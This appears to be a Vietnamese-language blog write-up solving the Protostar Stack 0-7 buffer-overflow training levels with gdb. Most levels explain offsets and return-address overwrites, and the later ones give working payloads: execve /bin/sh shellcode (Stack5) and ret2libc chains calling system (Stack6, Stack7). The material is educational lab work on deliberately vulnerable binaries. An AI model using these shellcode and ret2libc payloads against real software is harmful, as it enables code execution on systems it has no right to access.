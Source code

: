 ```yaml
---
title: 'Giải PWN PROTOSTAR Stack 0-7'
date: 2022-02-20T15:32:14Z
lastmod: '2021-12-3'
tags: ['PWN', 'Python', 'Protostar', 'peda-gdb']
draft: false
summary: 'Làm quen với PWN và exploit protostar tất cả các bài'
layout: PostSimple
bibliography: references-data.bib
---
```


# 1.Stack0

- Đầu tiên em thử chạy gdb xem flow chương trình
  ![Screenshot 2022-03-18 113514](https://i.imgur.com/hW45j0Y.png)
- Đặt breakpoint vào hàm test vì đây là lỗi stack overflow nên cần kiểm tra xem eax là gì với input đầu vào là "aaa"
  ![Screenshot 2022-03-18 114143](https://i.imgur.com/GTrzABf.png)
- Kiểm tra xem khoảng cách biến buffer và modified xem là bao nhiêu thì đúng 64 kí tự có nghĩa là nếu ta điền 65 kí tự thì nó sẽ đẩy lên biến modified
  ![Screenshot 2022-03-18 114408](https://i.imgur.com/LN8tEi3.png)
- Vậy viết exploit với input 65 kí tự có thể thấy thanh eax đã bị đè lên kí tự a vậy là hoàn thành.
  ![Screenshot 2022-03-18 114649](https://i.imgur.com/hBdKsWz.png)

# 2-Stack1

- Đầu tiên em thử chạy gdb xem flow chương trình có vẻ bị lỗi ở hảm strcpy
  ![Screenshot 2022-03-18 115212](https://i.imgur.com/onu506B.png)
- Đặt breakpoint vào hàm cmp vì đây là lỗi stack overflow nên cần kiểm tra xem tham số truyền vào so sánh là gì
  ![Screenshot 2022-03-18 120703](https://i.imgur.com/Vjuge58.png)
- Có vẻ nó đang so sánh eax với 0x61626364 nhưng hiện tại eax là 0 nên ta cần phải cho eax là 0x61626364 thì thành công và khoảng cách giữa buffer và modified là 64 kí tự
  ![Screenshot 2022-03-18 114408](https://i.imgur.com/LN8tEi3.png)
- Vậy viết exploit với input 68 kí tự có thể thấy thanh eax đã bị đè lên x61626364 vậy là hoàn thành.
  ![Screenshot 2022-03-18 121457](https://i.imgur.com/rPbKHFv.png)

![Screenshot 2022-03-18 121752](https://i.imgur.com/XAnJO9g.png)

# 3-Stack2

- Đầu tiên em thử chạy gdb xem flow chương trình có vẻ bị lỗi ở hảm strcpy
  ![Screenshot 2022-03-18 133928](https://i.imgur.com/W9hTdmN.png)
- Để ý đoạn này trước tiên cần set biến môi trường GREENIE

```
  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }
```

![Screenshot 2022-03-18 133801](https://i.imgur.com/D4Qpdb7.png)

- Để ý hàm cmp so sánh giữa eax và 0x0d0a0d0a nên như bài stack1 ta input như sau

![Screenshot 2022-03-18 143150](https://i.imgur.com/6xtSXPA.png)

# 4-Stack3

- Đầu tiên em thử chạy gdb xem flow chương trình có vẻ chúng ta cần call được hàm win  
  ![Screenshot 2022-03-18 154653](https://i.imgur.com/xAL573c.png)

```
void win()
{
  printf("code flow successfully changed\n");
}
```

- Đặt breakpoint vào hàm cmp vì đây là lỗi stack overflow nên cần đổi địa chỉ của fp thay bởi hàm win => Địa chỉ của hàm win là: 0x8048424
  ![Screenshot 2022-03-18 154950](https://i.imgur.com/OJ3WhKv.png)
- cách giữa buffer và fb là 64 kí tự
  ![Screenshot 2022-03-18 114408](https://i.imgur.com/LN8tEi3.png)
- Vậy viết exploit với input sao cho chỗ bị tràn là địa chỉ của hàm win là xong.

![Screenshot 2022-03-18 155452](https://i.imgur.com/wZ4Q4Nu.png)

# 5-Stack4

- Đầu tiên em thử chạy gdb xem flow chương trình có vẻ chúng ta cần call được hàm win

![Screenshot 2022-03-18 171313](https://i.imgur.com/yiByJlD.png)

![stack](https://i.imgur.com/lwPqKh1.png)

```
void win()
{
  printf("code flow successfully changed\n");
}
```

- Đặt breakpoint vào hàm leave vì đây là lỗi stack overflow nên cần đổi địa chỉ của return address hàm win => Địa chỉ của hàm win là: 0x80483f4
  ![Screenshot 2022-03-18 171852](https://i.imgur.com/yQjK11O.png)
- cách giữa buffer và return address = ebp - bufer + 4 (để tràn epb) nên tổng là 76 ký tự
  ![Screenshot 2022-03-18 172301](https://i.imgur.com/8M22gz2.png)
- Vậy viết exploit với input sao cho chỗ bị tràn là địa chỉ của hàm win là xong.

![Screenshot 2022-03-18 172500](https://i.imgur.com/g6qi55l.png)

# 6-Stack5

- Đầu tiên em thử chạy gdb xem flow chương trình , chương trình muốn thực hiện gọi shellcode.
  ![Screenshot 2022-03-21 161342](https://i.imgur.com/2KMkkc8.png)

- Ý tưởng: địa chỉ buffer vào return address và nội dung chứa shellcode thực thi. Đặt breakpoint để xem địa chỉ của buffer.

![stack](https://i.imgur.com/lwPqKh1.png)
![Screenshot 2022-03-21 161509](https://i.imgur.com/n8OAseM.png)

```
>>> hex(0xbffffc50+0x10)
'0xbffffc60'
```

- Tính toán offset tới return address là 76 byte sau đó viết exploit là thành công

```
import struct
padding = "a" * 36
nop = "a"*12
addr = struct.pack("I", 0xbffffc60)
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73" +
             "\x68\x68\x2f\x62\x69\x6e\x89" +
             "\xe3\x89\xc1\x89\xc2\xb0\x0b" +
             "\xcd\x80\x31\xc0\x40\xcd\x80")
print padding + shellcode + nop + addr
```

![Screenshot 2022-03-21 162201](https://i.imgur.com/AaEgLAx.png)

# 7-Stack6

- Đầu tiên em thử chạy gdb xem flow chương trình, kiểm tra checksec thì thấy tất cả cơ chế bảo vệ đều tắt nên em dùng ret2libc đề overflow

- Ý tưởng: Đưa địa chỉ shell code vào return để có thể thực thi exploit
  ![Screenshot 2022-03-22 190604](https://i.imgur.com/uV62vM0.png)
  ![stack](https://i.imgur.com/lwPqKh1.png)

- Đầu tiên cần tìm khoảng byte tràn xem hàm getpath đã:
  ![Screenshot 2022-03-22 190912](https://i.imgur.com/ieTZaHQ.png)
- Đặt breakpoint vào get và ret để xem

```
gdb-peda$ b* 0x080484a4
Breakpoint 1 at 0x80484a4: file stack6/stack6.c, line 13.
gdb-peda$ b* 0x080484f9
Breakpoint 2 at 0x80484f9: file stack6/stack6.c, line 23.
gdb-peda$ r
```

- Địa chỉ buffer :

```
>>> hex(0xffffd0f8-0x4c)
'0xffffd0ac'
```

- Địa chỉ return : 0xffffd0fc
- Khoảng cách:

```
>>>0xffffd0fc-0xffffd0ac
80
```

- Địa chỉ của system, exit, bin/sh
  ![Screenshot 2022-03-22 191456](https://i.imgur.com/eL142V0.png)
- Đầy đủ hết rồi bây giờ viết payload thôi.

```
import struct
sys = 0xf7e01cc0
exit = 0xf7df4640
sh = 0xf7f4cb62
payload = ""
payload += 'A'*80
payload += struct.pack("<I",sys)
payload += struct.pack("<I",exit)
payload += struct.pack("<I",sh)
print payload
```

![Screenshot 2022-03-22 191633](https://i.imgur.com/VivCqLA.png)

# 8-Stack7

- Đầu tiên em thử chạy gdb xem flow chương trình, kiểm tra checksec thì thấy tất cả cơ chế bảo vệ đều tắt nên em dùng ret2libc đề overflow

- Ý tưởng: Đưa địa chỉ shell code vào return để có thể thực thi exploit
  ![Screenshot 2022-03-22 190604](https://i.imgur.com/uV62vM0.png)
  ![stack](https://i.imgur.com/lwPqKh1.png)

- Đầu tiên cần tìm khoảng byte tràn xem hàm getpath đã:
  ![Screenshot 2022-03-25 120410](https://i.imgur.com/B3vPoKe.png)
- Đặt breakpoint vào get và ret để xem

- Địa chỉ buffer :

```
>>> hex(0xbffffc98-0x4c)
'0xbffffc4c'
```

- Địa chỉ return : 0xbffffc9c
  ![Screenshot 2022-03-25 120554](https://i.imgur.com/1R6JBjU.png)
- Khoảng cách:

```
>>> 0xbffffc9c-0xbffffc4c
80
```

- Địa chỉ của system, exit, bin/sh
  ![Screenshot 2022-03-25 120833](https://i.imgur.com/Fv4GT2i.png)
- Tìm địa chỉ "/bin/sh"
  ![Screenshot 2022-03-25 121110](https://i.imgur.com/FHlb1aO.png)
- Tìm offset tới "bin/sh"
  ![Screenshot 2022-03-25 121309](https://i.imgur.com/AvoigAR.png)
- Địa chỉ:

```
>>> hex(0x11f3bf+0xb7e97000)
'0xb7fb63bf'
```

- Viết exploit

```
(python -c 'print"A"*80 + "\x44\x85\x04\x08" + "\xb0\xff\xec\xb7" +  "\xc0\x60\xec\xb7" + "\xbf\x63\xfb\xb7" ' ; cat) | ./stack7
```

![Screenshot 2022-03-25 121514](https://i.imgur.com/wyRPMNX.png)
